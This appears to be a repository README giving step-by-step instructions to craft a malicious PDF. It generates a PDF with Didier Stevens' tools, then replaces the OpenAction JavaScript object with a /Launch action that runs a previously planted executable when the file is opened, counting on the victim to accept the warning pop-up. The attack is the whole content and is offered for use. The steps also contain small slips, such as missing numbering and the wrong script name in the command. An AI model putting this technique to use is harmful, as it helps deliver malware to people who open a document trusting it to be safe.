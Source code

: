 # PDF as a means of executing a previously injected Malicious File
How to execute this attack:
 1) Use Didier Stevens PDF tools for the beginning of this process, those steps will be listed below.
   i) Download Didier Stevens PDF tools as linked here https://blog.didierstevens.com/programs/pdf-tools/, more specifically the make-pdf tool.
   ii) You have two options, the first being to use Didier Stevens make-pdf-embedded.py which is a different route that I went and swill require some exploration, or you can use make-pdf-javascript.py.
 3) We are only using make-pdf-javascript.py as a way to make the pdf itself, we will soon open the PDF document in a code editor and make some slight changes, to use this program you have to utilize the python 2 interpreter.
  i) enter this command into the CLI: py -2 make-pdf-embedded.py (outputname).pdf
 4) Open the pdf file that was created in the above step and open the notepad to display what is inside.
 5) In the this step we will find where the javascript object is and replace it with something else, firstly refer to the OpenAction object at the top. This object is labeled as object 7 as such "/OpenAction 7 0 R", this will lead you in the direction of what is being acted upon as soon as something is opened, 
 ><<
  /Type /Action
   /S /JavaScript
   /JS (app.alert({cMsg: 'Hello from PDF JavaScript', cTitle: 'Testing PDF JavaScript', nIcon: 3});)>>
 6) Here we will replace with another type of action that can be executed by a PDF which is:
 ><<
  /Type /Action
  /S /Launch
  /Win << /F (c:\\(filepath to the executable).exe >> >>
 7) After replacing the two portions of the code, you should have a pdf that is capable of executing an executable on most pdf readers, you will have to hope that the user does not read the pop up and just willingly accepts.


Relevant Material:
https://github.com/filipi86/MalwareAnalysis-in-PDF
https://github.com/ohbriansung/phishing_email_pdf_attack
http://www.openrce.org/blog/view/1459/Heap_Spraying
https://courses.cs.vt.edu/cs2506/Fall2017/C/HS/handout.pdf
https://pythonhosted.org/PyPDF2/PdfFileWriter.html?highlight=addAttachment
https://blog.didierstevens.com/programs/pdf-tools/
https://www.blackhat.com/presentations/bh-europe-07/Sotirov/Presentation/bh-eu-07-sotirov-apr19.pdf
